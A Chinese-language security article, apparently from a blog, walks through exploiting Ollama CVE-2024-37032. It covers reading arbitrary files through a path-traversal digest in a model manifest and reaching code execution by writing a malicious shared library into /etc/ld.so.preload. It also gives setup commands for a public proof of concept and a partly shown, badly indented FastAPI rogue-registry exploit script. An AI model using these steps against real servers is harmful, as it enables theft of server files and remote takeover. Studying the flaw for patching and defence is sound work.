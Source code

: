 要利用此漏洞，攻击者会在服务器上放置恶意清单文件（例如/root/.ollama/models/manifests/%IP_ADDRESS%/library/manifest/latest）。该文件包含其图层的摘要字段中的有效负载。当尝试通过/api/push端点将此恶意模型推送到远程注册表时，服务器会处理清单文件。但是，由于对摘要字段验证不当，服务器错误地将有效载荷解释为合法的文件路径。因此，而不是安全地处理摘要字段，服务器读取并泄露由有效载荷指定的文件的内容。这种泄漏暴露了存储在服务器上的敏感信息，破坏了数据的保密性，并可能破坏数据的完整性。  
### Remote Code Execution  
  
漏洞利用过程 写入恶意共享库：  
  
攻击者首先利用任意文件写入漏洞，将一个恶意的共享库（例如/root/bad.so）写入目标系统的文件系统中。  
  
这个恶意共享库包含攻击者希望执行的代码，例如反弹Shell、提权代码等。  
  
篡改/etc/ld.so.preload文件：  
  
攻击者进一步利用任意文件写入漏洞，修改/etc/ld.so.preload文件，将恶意共享库的路径（如/root/bad.so）添加到该文件中。  
  
这样，每当系统启动一个新进程时，都会自动加载这个恶意共享库。  
  
触发新进程：  
  
攻击者通过向Ollama API服务器的/api/chat端点发送请求，触发服务器启动一个新进程。  
  
由于/etc/ld.so.preload已被篡改，新进程在启动时会自动加载恶意共享库，从而执行攻击者的代码。  
## Exploit script for file reading  
  
让我们使用Ollama的Docker版本。要启动一个实例（从项目的官方Docker Hub中拉取），您只需运行以下命令：  
```
docker run -v ollama:/root/.ollama -p 11434:11434 --name ollama ollama/ollama:0.1.33
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGrvv2qYlnHsYyYWUnZPRk3QX7O7GFYQcnGY1ruPp3iceUcpiba8d31rMJx1pbAn7ia70ibTbr2YybYBJw/640?wx_fmt=png&from=appmsg "")  
```
git clone https://github.com/Bi0x/CVE-2024-37032.git  
cd CVE-2024-37032
```  
  
首先，让我们打开 poc.py 和 server.py 文件，并按照 repos 说明将“HOST”变量的值修改为我们的本地IP地址（例如“192.168.143.234”等）。然后用python3启动server.py并运行poc.py。结果应该类似如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGrvv2qYlnHsYyYWUnZPRk3Qibtnd6dwUoBOHiaKl5dPpZXCTGJJsG1ic1ellHOwkjekkGV785pnrtxmA/640?wx_fmt=png&from=appmsg "")  
  
对利用脚本进行了一些调整，使其变得更加动态  
```
from fastapi importFastAPI,Request,Response

PATH_TRAVELSAL_STRING =14
PREFIX ="../"* PATH_TRAVELSAL_STRING
UUID ="3647298c-9588-4dd2-9bbe-0539533d2d04"
STATE ="eBQ2_sxwOJVy8DZMYYZ8wA8NBrJjmdINFUMM6uEZyYF7Ik5hbWUiOiJyb2d1ZS9sbGFtYTMiLCJVVUlEIjoiMzY0NzI5OGMtOTU4OC00ZGQyLTliYmUtMDUzOTUzM2QyZDA0IiwiT2Zmc2V0IjowLCJTdGFydGVkQXQiOiIyMDI0LTA2LTI1VDEzOjAxOjExLjU5MTkyMzgxMVoifQ%3D%3D"

def create_app(file: str, host: str,namespace: str):
    app =FastAPI()

def write_to_file(text):
try:
with open('response.txt','w')as file_to_write:
                file_to_write.write(text)
print(f"Content of {file} successfully written to response.txt.")
exceptIOError:
print(f"Error: Could not write to response.txt.")

@app.get("/")
    async def index_get():
return{"message":"Hello!"}

@app.post("/")
    async def index_post(callback_data:Request):
```